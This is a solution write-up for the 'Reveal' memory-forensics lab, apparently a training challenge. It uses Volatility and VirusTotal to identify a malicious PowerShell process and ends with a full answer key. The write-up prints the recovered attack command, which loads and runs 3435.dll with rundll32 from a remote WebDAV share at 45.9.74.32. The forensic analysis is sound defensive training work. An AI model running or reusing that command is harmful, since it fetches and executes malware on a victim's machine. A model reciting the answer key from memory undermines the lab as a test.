

# Reveal Lab

### Scenario

You are a forensic investigator at a financial institution, and your SIEM flagged unusual activity on a workstation with access to sensitive financial data. Suspecting a breach, you received a memory dump from the compromised machine. Your task is to analyze the memory for signs of compromise, trace the anomaly's origin, and assess its scope to contain the incident effectively.

### Tool

- Volatility

- Virustotal

### Solution

#### Question 1: Identifying the name of the malicious process helps in understanding the nature of the attack. What is the name of the malicious process?

Volatility 3 has many plugins to manually or automatically analyze this data. `malfind` help us to find suspicious processes

```bash
python3 ~/Desktop/tools/volatility3/vol.py -f 192-Reveal.dmp windows.malfind
```



We see that, there is `powershell.exe` process. To confirm whether it is malicious process, I will check `cmdline` to know what it does.

```bash
python3 ~/Desktop/tools/volatility3/vol.py -f 192-Reveal.dmp windows.cmdline --pid 3692
```


Well, we confirm that there is malicious process

#### Question 2: What is the parent PID of the malicious process?

I will use `pstree` plugin to check it

```bash
python3 ~/Desktop/tools/volatility3/vol.py -f 192-Reveal.dmp windows.pstree
```


#### Question 3: What is the file name that the malware uses to execute the second-stage payload?

First of all, we have the powershell command of that process:

```bash
powershell.exe -windowstyle hidden net use \\45.9.74.32@8888\davwwwroot\ ; rundll32 \\45.9.74.32@8888\davwwwroot\3435.dll,entry
```

I see that:

- `powershell.exe -windowstyle hidden`: Run Powershell with hidden window -> maybe avoid being detected by users
- `net use \\45.9.74.32@8888\davwwwroot\`: Maps a remote shared directory located on `45.9.74.32`. Maybe attacker will load or transfer malicious payload from this shared directory
- `rundll32 \\45.9.74.32@8888\davwwwroot\3435.dll,entry`: run `rundll32.exe` (often used to load/run DLL file). In this command, attacker will load and run the `3435.dll` from shared directory. 

#### Question 4: What is the name of the shared directory being accessed on the remote server?

As explained in question 3

#### Question 5: What is the MITRE ATT&CK sub-technique ID that describes the execution of a second-stage payload using a Windows utility to run the malicious file?

In this attack, attacker use `rundll32.exe` to execute malicious payloads.


#### Question 6: Identifying the username under which the malicious process runs helps in assessing the compromised account and its potential impact. What is the username that the malicious process runs under?

I will use `getsids` to get the answer

```bash
python3 ~/Desktop/tools/volatility3/vol.py -f 192-Reveal.dmp windows.getsids --pid 3692
```


#### Question 7: What is the name of the malware family?

I will search the IP `45.9.74.32` on Virustotal to find other malicious file which related to this IP, and I will check the family name of it.


There are many DLL files related this IP, so I checked it


OR, in the first time we search Virustotal, we have found it bruh


### Final Answer

| Question | Answer |
|---|----|
| Question 1 | `powershell.exe` | 
| Question 2 | `4120` | 
| Question 3 | `3435.dll` |
| Question 4 | `davwwwroot` |
| Question 5 | `T1218.011`|
| Question 6 | `Elon` |
| Question 7 | `strelastealer` |